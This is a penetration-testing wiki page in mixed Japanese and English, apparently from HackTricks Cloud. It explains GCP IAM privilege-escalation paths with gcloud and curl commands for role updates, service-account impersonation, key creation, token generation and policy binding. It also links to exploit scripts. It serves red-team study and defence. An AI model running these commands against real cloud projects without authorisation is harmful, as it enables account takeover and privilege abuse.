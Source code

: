 # GCP - IAM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## IAM

IAMに関する詳細情報は以下を参照してください：

{% content-ref url="../gcp-services/gcp-iam-and-org-policies-enum.md" %}
[gcp-iam-and-org-policies-enum.md](../gcp-services/gcp-iam-and-org-policies-enum.md)
{% endcontent-ref %}

### `iam.roles.update` (`iam.roles.get`)

上記の権限を持つ攻撃者は、あなたに割り当てられたロールを更新し、次のような他のリソースへの追加権限を与えることができます：
```bash
gcloud iam roles update <rol name> --project <project> --add-permissions <permission>
```
You can find a script to automate the **creation, exploit and cleaning of a vuln environment here** and a python script to abuse this privilege [**here**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.roles.update.py). For more information check the [**original research**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.getAccessToken` (`iam.serviceAccounts.get`)

指定された権限を持つ攻撃者は、**サービスアカウントに属するアクセストークンを要求することができる**ため、私たちの権限よりも多くの権限を持つサービスアカウントのアクセストークンを要求することが可能です。
```bash
gcloud --impersonate-service-account="${victim}@${PROJECT_ID}.iam.gserviceaccount.com" \
auth print-access-token
```
ここに[**脆弱な環境の作成、悪用、クリーンアップを自動化するスクリプト**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/4-iam.serviceAccounts.getAccessToken.sh)と、この特権を悪用するためのPythonスクリプトが[**こちら**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getAccessToken.py)にあります。詳細については、[**元の研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)を確認してください。

### `iam.serviceAccountKeys.create`

前述の権限を持つ攻撃者は、**サービスアカウントのユーザー管理キーを作成**でき、これによりそのサービスアカウントとしてGCPにアクセスできるようになります。
```bash
gcloud iam service-accounts keys create --iam-account <name> /tmp/key.json

gcloud auth activate-service-account --key-file=sa_cred.json
```
ここに、[**脆弱な環境の作成、悪用、クリーンアップを自動化するスクリプト**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/3-iam.serviceAccountKeys.create.sh)と、この特権を悪用するためのPythonスクリプトが[**こちら**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccountKeys.create.py)にあります。詳細については、[**元の研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)を確認してください。

**`iam.serviceAccountKeys.update`はSAのキーを変更するためには機能しない**ことに注意してください。なぜなら、それを行うには`iam.serviceAccountKeys.create`の権限も必要だからです。

### `iam.serviceAccounts.implicitDelegation`

もし、**`iam.serviceAccounts.implicitDelegation`**の権限を持つサービスアカウントが、第三のサービスアカウントに対して**`iam.serviceAccounts.getAccessToken`**の権限を持っている場合、implicitDelegationを使用して**その第三のサービスアカウントのトークンを作成することができます**。説明を助けるための図は以下の通りです。

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image2-500x493.png)

[**ドキュメント**](https://cloud.google.com/iam/docs/understanding-service-accounts)によると、`gcloud`の委任は[**generateAccessToken()**](https://cloud.google.com/iam/credentials/reference/rest/v1/projects.serviceAccounts/generateAccessToken)メソッドを使用してトークンを生成するためにのみ機能することに注意してください。したがって、APIを直接使用してトークンを取得する方法は以下の通りです：
```bash
curl -X POST \
'https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/'"${TARGET_SERVICE_ACCOUNT}"':generateAccessToken' \
-H 'Content-Type: application/json' \
-H 'Authorization: Bearer '"$(gcloud auth print-access-token)" \
-d '{
"delegates": ["projects/-/serviceAccounts/'"${DELEGATED_SERVICE_ACCOUNT}"'"],
"scope": ["https://www.googleapis.com/auth/cloud-platform"]
}'
```
You can find a script to automate the [**作成、悪用、脆弱な環境のクリーンアップはこちら**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/5-iam.serviceAccounts.implicitDelegation.sh) and a python script to abuse this privilege [**こちら**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.implicitDelegation.py). For more information check the [**元の研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signBlob`

An attacker with the mentioned permissions will be able to **GCP内の任意のペイロードに署名する**. So it'll be possible to **SAの署名されていないJWTを作成し、それをblobとして送信してターゲットのSAによってJWTに署名させる**. For more information [**こちらを読む**](https://medium.com/google-cloud/using-serviceaccountactor-iam-role-for-account-impersonation-on-google-cloud-platform-a9e7118480ed).

You can find a script to automate the [**作成、悪用、脆弱な環境のクリーンアップはこちら**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/6-iam.serviceAccounts.signBlob.sh) and a python script to abuse this privilege [**こちら**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-accessToken.py) and [**こちら**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-gcsSignedUrl.py). For more information check the [**元の研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signJwt`

An attacker with the mentioned permissions will be able to **適切に形成されたJSONウェブトークン（JWT）に署名する**. The difference with the previous method is that **JWTを含むblobに署名するのではなく、すでにJWTを期待しているsignJWTメソッドを使用します**. This makes it easier to use but you can only sign JWT instead of any bytes.

You can find a script to automate the [**作成、悪用、脆弱な環境のクリーンアップはこちら**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/7-iam.serviceAccounts.signJWT.sh) and a python script to abuse this privilege [**こちら**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signJWT.py). For more information check the [**元の研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.setIamPolicy` <a href="#iam.serviceaccounts.setiampolicy" id="iam.serviceaccounts.setiampolicy"></a>

An attacker with the mentioned permissions will be able to **サービスアカウントにIAMポリシーを追加する**. You can abuse it to **自分に必要な権限を付与してサービスアカウントを偽装する**. In the following example we are granting ourselves the `roles/iam.serviceAccountTokenCreator` role over the interesting SA:
```bash
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountTokenCreator"

# If you still have prblem grant yourself also this permission
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \ \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountUser"
```
You can find a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/d-iam.serviceAccounts.setIamPolicy.sh)**.**

### `iam.serviceAccounts.actAs`

The **iam.serviceAccounts.actAs permission** is like the **iam:PassRole permission from AWS**. It's essential for executing tasks, like initiating a Compute Engine instance, as it grants the ability to "actAs" a Service Account, ensuring secure permission management. Without this, users might gain undue access. Additionally, exploiting the **iam.serviceAccounts.actAs** involves various methods, each requiring a set of permissions, contrasting with other methods that need just one.

#### サービスアカウントの偽装 <a href="#service-account-impersonation" id="service-account-impersonation"></a>

サービスアカウントを偽装することは、**新しいより良い権限を取得するために非常に便利**です。別のサービスアカウントを[偽装する方法は3つあります](https://cloud.google.com/iam/docs/understanding-service-accounts#impersonating\_a\_service\_account):

* RSA秘密鍵を使用した**認証**（上記で説明）
* Cloud IAMポリシーを使用した**認可**（ここで説明）
* GCPサービスでの**ジョブのデプロイ**（ユーザーアカウントの侵害により適用される）

### `iam.serviceAccounts.getOpenIdToken`

上記の権限を持つ攻撃者は、OpenID JWTを生成することができます。これらはアイデンティティを主張するために使用され、リソースに対する暗黙の認可を必ずしも持っているわけではありません。

この[**興味深い投稿**](https://medium.com/google-cloud/authenticating-using-google-openid-connect-tokens-e7675051213b)によると、トークンを認証に使用したいサービス（オーディエンス）を示す必要があり、Googleによって署名されたJWTがサービスアカウントとJWTのオーディエンスを示して返されます。

アクセスがあれば、OpenIDTokenを生成できます:
```bash
# First activate the SA with iam.serviceAccounts.getOpenIdToken over the other SA
gcloud auth activate-service-account --key-file=/path/to/svc_account.json
# Then, generate token
gcloud auth print-identity-token "${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com" --audiences=https://example.com
```
その後、次のようにしてサービスにアクセスできます：
```bash
curl -v -H "Authorization: Bearer id_token" https://some-cloud-run-uc.a.run.app
```
いくつかのサービスは、この種のトークンを介して認証をサポートしています：

* [Google Cloud Run](https://cloud.google.com/run/)
* [Google Cloud Functions](https://cloud.google.com/functions/docs/)
* [Google Identity Aware Proxy](https://cloud.google.com/iap/docs/authentication-howto)
* [Google Cloud Endpoints](https://cloud.google.com/endpoints/docs/openapi/authenticating-users-google-id) (Google OIDCを使用している場合)

サービスアカウントの代わりにOpenIDトークンを作成する方法の例は[**こちら**](https://github.com/carlospolop-forks/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getOpenIdToken.py)で見つけることができます。

## 参考文献

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
